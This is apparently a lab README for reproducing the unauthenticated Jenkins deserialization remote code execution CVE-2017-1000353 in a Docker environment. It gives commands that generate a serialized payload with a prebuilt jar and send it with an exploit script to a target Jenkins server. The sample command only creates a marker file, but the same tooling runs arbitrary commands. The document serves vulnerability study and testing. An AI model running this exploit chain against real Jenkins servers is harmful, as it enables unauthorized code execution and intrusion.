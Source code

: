 # Jenkins Remote Code Execution (CVE-2017-1000353)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is a popular open-source automation server.

Jenkins versions 2.56 and earlier as well as 2.46.1 LTS and earlier are vulnerable to an unauthenticated remote code execution. An unauthenticated remote code execution vulnerability allowed attackers to transfer a serialized Java `SignedObject` object to the Jenkins CLI, that would be deserialized using a new `ObjectInputStream`, bypassing the existing blacklist-based protection mechanism.

References:

- <https://www.jenkins.io/security/advisory/2017-04-26/>
- <https://www.exploit-db.com/exploits/41965>

## Environment Setup

Execute the following command to start Jenkins 2.46.1:

```
docker compose up -d
```

After the server is fully started, visit `http://your-ip:8080` to access Jenkins. No manual installation is required.

## Vulnerability Reproduction

The exploitation process involves two steps: generating a malicious serialized payload and sending it to the target Jenkins server.

First, download the [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) tool to generate the payload. This tool will create a serialized object containing our command:

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser is the output file name
# "touch ..." is the command to be executed
```

After execution, a file named `jenkins_poc.ser` will be generated containing the serialized payload.

Next, download the [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) script and execute it with Python 3 to send the payload:

```bash
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![Sending the exploit payload](1.png)

To verify the successful exploitation, check inside the container for the created file:

![Verification of command execution](2.png)

The presence of `/tmp/success` file confirms that the remote code execution was successful.
